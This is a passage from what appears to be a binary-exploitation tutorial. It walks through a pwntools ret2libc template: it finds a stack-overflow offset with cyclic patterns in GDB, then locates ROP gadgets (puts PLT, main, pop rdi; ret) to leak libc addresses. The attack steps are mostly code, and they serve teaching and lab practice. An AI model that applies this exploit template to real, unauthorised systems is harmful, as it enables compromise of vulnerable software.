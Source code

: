 ### 1- Finding the offset

The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it (by default `OFFSET = ""`):

```
####################
#### Find offset ###
####################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```

Execute `python template.py` a GDB console will be opened with the program being crashed. Inside that GDB console execute `x/wx $rsp` to get the bytes that were going to overwrite the RIP. Finally get the offset using a python console:

```
from pwn import *
cyclic_find(0x6161616b)
```

![img](https://github.com/carlospolop/hacktricks/raw/master/.gitbook/assets/image%20%28188%29.png)

After finding the offset (in this case 40) change the OFFSET variable inside the template using that value.
`OFFSET = "A" * 40`

### 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the libc being used, and later to launch the final exploit.

```
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT` is needed to call the function puts.
The `MAIN_PLT` is needed to call the main function again after one interaction to exploit the overflow again (infinite rounds of exploitation).It is used at the end of each ROP.
The POP_RDI is needed to pass a parameter to the called function.
